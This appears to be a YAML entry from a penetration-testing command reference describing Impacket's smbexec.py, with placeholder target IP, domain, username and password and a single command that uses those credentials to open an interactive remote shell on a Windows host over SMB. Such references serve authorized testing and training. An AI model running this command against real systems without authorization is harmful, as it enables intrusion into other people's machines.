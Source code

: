 ```yaml
---
title: |
  
description: |
  Impacket's smbexec.py. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!
command: |
  python3 smbexec.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py
  - https://www.varonis.com/blog/insider-danger-stealthy-password-hacking-with-smbexec/
---
```

